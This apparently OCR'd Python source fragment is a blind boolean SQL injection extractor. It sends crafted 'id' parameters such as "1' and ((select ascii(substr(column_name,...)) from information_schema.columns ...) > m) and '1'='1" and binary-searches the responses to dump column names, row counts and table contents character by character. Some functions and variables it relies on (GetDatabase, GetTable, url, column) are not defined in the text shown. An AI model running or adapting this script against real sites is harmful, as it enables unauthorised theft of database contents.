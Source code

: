 ```python
def GetColumnName(n,len):
    for k in range(len):
        i = 1
        j = 255
        while (i <= j):
            m = (i + j) // 2
            id = "1' and ((select ascii(substr(column_name,%d,1))  from information_schema.columns where table_schema='%s' and table_name='%s' limit %d,1) > %d ) and '1'='1" % (k+1, dbname, tbname, n, m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        print(chr(i),end='')
    print()
def GetContent():
    i = 1
    j = 255
    while (i <= j):
        m = (i + j) // 2
        id = "1' and ((select count(*) from %s.%s)>%d) and '1'='1" % (dbname,tbname,m)
        re = requests.request("get", url + id).text;
        if tip in re:
            i = m + 1
        else:
            j = m - 1
    GetContentLength(i)
def GetContentLength(n):
    for k in range(n):
        i = 1
        j = 255
        while(i<=j):
            m = (i+j)//2
            id = "1' and ((select length(%s) from %s.%s limit %d,1)>%d) and '1'='1" %(column,dbname,tbname,k,m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        GetContentName(k,i)
def GetContentName(n,len):
    for k in range(len):
        i = 1
        j = 127
        while (i <= j):
            m = (i + j) // 2
            id = "1' and ((select ascii(substr(%s,%d,1)) from %s.%s limit %d,1)>%d) and '1'='1" % (column,k+1, dbname, tbname, n, m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        print(chr(i),end='')
    print()

tip = 'yiiiiiiiiiii'
GetDatabase()
dbname = input("Please input the dbname:")
GetTable()
tbname = input("please input the table name:")
```